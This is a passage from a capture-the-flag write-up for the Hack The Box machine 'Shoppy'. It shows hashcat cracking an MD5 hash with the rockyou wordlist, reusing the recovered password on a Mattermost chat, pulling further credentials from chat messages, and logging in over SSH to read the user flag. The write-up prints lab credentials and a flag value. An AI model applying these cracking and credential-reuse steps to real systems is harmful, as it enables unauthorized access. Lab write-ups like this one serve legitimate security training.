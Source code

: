 ```jsx
$ hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt.gz
...
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: hashes.txt
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Recovered........: 1/2 (50.00%) Digests (total), 0/2 (0.00%) Digests (new)6
$ hashcat -m 0 --show hashes.txt
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

**************************Credentials:************************** `josh`/ `remembermethisway`

## User Shell

We know from earlier, ssh is open to the system, however he didn’t reuse his shoppy password. We also found another sub-domain, `mattermost.shoppy.htb`. Browsing there, we a presented a login page. That same combination was used here too.

Browsing the channels, we see an interesting conversation between `josh` and `jaeger`.

```jsx
josh: Hey @jaeger, when I was trying to install docker on the machine, I started learn C++ and I do a password manager. You can test it if you want, the program is on the deploy machine.
jaeger: Nice, I will take a look at it
```

There’s another conversation between them where jaeger shares some credentials:

![Shoppy Chat](image/shoppy-chat.png)

**********************Credentials**********************: `jaeger` / `Sh0ppyBest@pp!`

We also learn that docker is being used for deployments. After poking around we see another user, `jess` , who shares about her cat, `Tigrou`. I checked for any additional channels or users, but that seemed like it.

Let’s try ssh’ing into shoppy.htb using `jaeger`.

```bash
$ ssh jaeger@shoppy.htb 
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ cat user.txt
c31febe115dc3fb728b5435cd1ad9b1f
```
